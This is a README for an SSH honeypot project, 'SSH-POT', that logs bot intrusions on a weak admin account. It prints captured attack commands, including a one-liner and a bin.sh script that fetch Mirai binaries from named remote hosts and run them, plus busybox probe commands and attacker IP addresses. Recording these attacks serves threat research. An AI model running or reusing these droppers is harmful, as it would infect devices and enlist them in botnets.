

# SSH-POT

Created an user with username "admin" and passsword "admin". Disabled its sudo privileges. Waited for a bot or a hacker to break-in and acquired the behavior and operation log.

## Authors

1. Brian Sung
2. Omar Sharif

## How To Use

```shell
# Installing
sudo apt-get -y install ssmtp mailutils mpack

# Include this info:
# root=postmaster
# mailhub=smtp.gmail.com:587
# hostname=-raspberrypi
# AuthUser=gmailname@gmail.com
# AuthPass=gmailpassword
# FromLineOverride=YES
# UseSTARTTLS=YES
sudo nano /etc/ssmtp.conf

# Send a file: 
mpack -s "Subject" /home/pi/file.txt account@domain.com

# Run the script logrecorder.sh in backgound
./logrecorder.sh &
```

## Results

* Bot behavior 1:

```shell
echo 'cd /tmp || cd /var/run || cd /mnt || cd /root || cd / && rm bin.sh; rm curl.sh; wget http://systemservice.hldns.ru/bin.sh || curl http://systemservice.hldns.ru/curl.sh -O curl.sh || tftp systemservice.hldns.ru -c get bin.sh || tftp -r bin.sh -g systemservice.hldns.ru; chmod +x bin.sh || chmod +x curl.sh || chmod 777 bin.sh || chmod +x curl.sh; ./bin.sh || ./curl.sh' | sh
```

* bin.sh

```shell
#!/bin/sh
WEBSERVER="194.67.202.89"
BINARIES="mirai.arm mirai.arm7 mirai.m68k mirai.mips mirai.mpsl mirai.ppc mirai.sh4 mirai.spc mirai.x64 mirai.x86"
echo "ACID"
for Binary in $BINARIES; do
	wget http://$WEBSERVER/$Binary -O dvrHelper
	chmod 777 dvrHelper
	./dvrHelper $Binary
done
rm -f dvrHelper bin.sh
echo "FIN"
```

* Bot behavior 2:

```shell
/gisdfoewrsfdf
/bin/busybox cp; /gisdfoewrsfdf
/bin/busybox  mount ;/gisdfoewrsfdf
/bin/busybox  echo -e '\x47\x72\x6f\x70/' > //.nippon; /bin/busybox  cat //.nippon; /bin/busybox  rm -f //.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/tmp' > /tmp/.nippon; /bin/busybox  cat /tmp/.nippon; /bin/busybox  rm -f /tmp/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/var/tmp' > /var/tmp/.nippon; /bin/busybox  cat /var/tmp/.nippon; /bin/busybox  rm -f /var/tmp/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys' > /sys/.nippon; /bin/busybox  cat /sys/.nippon; /bin/busybox  rm -f /sys/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/proc' > /proc/.nippon; /bin/busybox  cat /proc/.nippon; /bin/busybox  rm -f /proc/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/dev' > /dev/.nippon; /bin/busybox  cat /dev/.nippon; /bin/busybox  rm -f /dev/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/dev/pts' > /dev/pts/.nippon; /bin/busybox  cat /dev/pts/.nippon; /bin/busybox  rm -f /dev/pts/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/run' > /run/.nippon; /bin/busybox  cat /run/.nippon; /bin/busybox  rm -f /run/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/' > //.nippon; /bin/busybox  cat //.nippon; /bin/busybox  rm -f //.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/kernel/security' > /sys/kernel/security/.nippon; /bin/busybox  cat /sys/kernel/security/.nippon; /bin/busybox  rm -f /sys/kernel/security/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/dev/shm' > /dev/shm/.nippon; /bin/busybox  cat /dev/shm/.nippon; /bin/busybox  rm -f /dev/shm/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/run/lock' > /run/lock/.nippon; /bin/busybox  cat /run/lock/.nippon; /bin/busybox  rm -f /run/lock/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup' > /sys/fs/cgroup/.nippon; /bin/busybox  cat /sys/fs/cgroup/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/unified' > /sys/fs/cgroup/unified/.nippon; /bin/busybox  cat /sys/fs/cgroup/unified/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/unified/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/systemd' > /sys/fs/cgroup/systemd/.nippon; /bin/busybox  cat /sys/fs/cgroup/systemd/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/systemd/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/pstore' > /sys/fs/pstore/.nippon; /bin/busybox  cat /sys/fs/pstore/.nippon; /bin/busybox  rm -f /sys/fs/pstore/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/perf_event' > /sys/fs/cgroup/perf_event/.nippon; /bin/busybox  cat /sys/fs/cgroup/perf_event/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/perf_event/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/cpuset' > /sys/fs/cgroup/cpuset/.nippon; /bin/busybox  cat /sys/fs/cgroup/cpuset/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/cpuset/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/blkio' > /sys/fs/cgroup/blkio/.nippon; /bin/busybox  cat /sys/fs/cgroup/blkio/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/blkio/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/memory' > /sys/fs/cgroup/memory/.nippon; /bin/busybox  cat /sys/fs/cgroup/memory/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/memory/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/cpu,cpuacct' > /sys/fs/cgroup/cpu,cpuacct/.nippon; /bin/busybox  cat /sys/fs/cgroup/cpu,cpuacct/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/cpu,cpuacct/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/net_cls,net_prio' > /sys/fs/cgroup/net_cls,net_prio/.nippon; /bin/busybox  cat /sys/fs/cgroup/net_cls,net_prio/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/net_cls,net_prio/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/freezer' > /sys/fs/cgroup/freezer/.nippon; /bin/busybox  cat /sys/fs/cgroup/freezer/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/freezer/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/rdma' > /sys/fs/cgroup/rdma/.nippon; /bin/busybox  cat /sys/fs/cgroup/rdma/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/rdma/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/devices' > /sys/fs/cgroup/devices/.nippon; /bin/busybox  cat /sys/fs/cgroup/devices/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/devices/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/hugetlb' > /sys/fs/cgroup/hugetlb/.nippon; /bin/busybox  cat /sys/fs/cgroup/hugetlb/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/hugetlb/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/pids' > /sys/fs/cgroup/pids/.nippon; /bin/busybox  cat /sys/fs/cgroup/pids/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/pids/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/proc/sys/fs/binfmt_misc' > /proc/sys/fs/binfmt_misc/.nippon; /bin/busybox  cat /proc/sys/fs/binfmt_misc/.nippon; /bin/busybox  rm -f /proc/sys/fs/binfmt_misc/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/kernel/debug' > /sys/kernel/debug/.nippon; /bin/busybox  cat /sys/kernel/debug/.nippon; /bin/busybox  rm -f /sys/kernel/debug/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/dev/hugepages' > /dev/hugepages/.nippon; /bin/busybox  cat /dev/hugepages/.nippon; /bin/busybox  rm -f /dev/hugepages/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/dev/mqueue' > /dev/mqueue/.nippon; /bin/busybox  cat /dev/mqueue/.nippon; /bin/busybox  rm -f /dev/mqueue/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/kernel/config' > /sys/kernel/config/.nippon; /bin/busybox  cat /sys/kernel/config/.nippon; /bin/busybox  rm -f /sys/kernel/config/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/fuse/connections' > /sys/fs/fuse/connections/.nippon; /bin/busybox  cat /sys/fs/fuse/connections/.nippon; /bin/busybox  rm -f /sys/fs/fuse/connections/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/boot/efi' > /boot/efi/.nippon; /bin/busybox  cat /boot/efi/.nippon; /bin/busybox  rm -f /boot/efi/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/var/lib/lxcfs' > /var/lib/lxcfs/.nippon; /bin/busybox  cat /var/lib/lxcfs/.nippon; /bin/busybox  rm -f /var/lib/lxcfs/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/run/user/0' > /run/user/0/.nippon; /bin/busybox  cat /run/user/0/.nippon; /bin/busybox  rm -f /run/user/0/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/run/user/1000' > /run/user/1000/.nippon; /bin/busybox  cat /run/user/1000/.nippon; /bin/busybox  rm -f /run/user/1000/.nippon
/gisdfoewrsfdf
/bin/busybox cat /bin/echo ;/gisdfoewrsfdf
```

* Bot sources:

```
107.170.200.63  - United States
142.44.218.192  - Canada
206.189.18.47   - United Kingdom
31.163.142.170  - Russian Federation
125.64.94.197   - China
5.188.86.172    - Netherlands
167.250.140.239 - Brazil
156.200.198.0   - Egypt
etc.
```



## Mirai

An ELF backdoor Trojan. **Future** is the meaning of the name in Japaness.

* **Symptoms**: Causes massive DDoS attacks, outage of popular websites, disables the Internet for thousands of people.
* **Targets**: IoT devices, IP cameras, Raspberry pi, Linux machines with BusyBox binary with default username and password setups.

* **Behaviors**:

    1. Brute-force attack to scan through network and try logins.
    2. Replicate and wait for further command.

* [Source Code](https://github.com/jgamblin/Mirai-Source-Code)

## References

1. [Similar attack](https://twitter.com/mleaustin/status/1082069872652226560?s=09)
2. [Mirai Linux backdoor](https://bestsecuritysearch.com/mirai-linux-backdoor-attacks-iot-devices/)
3. [ELF remote backdoor](http://blog.malwaremustdie.org/2016/02/mmd-0051-2016-debungking-tiny-elf.html)
4. [Similar attack in China](https://www.cnblogs.com/liuquan/p/6339820.html)
5. [Remove Mirai](https://www.2-spyware.com/remove-mirai-virus.html)
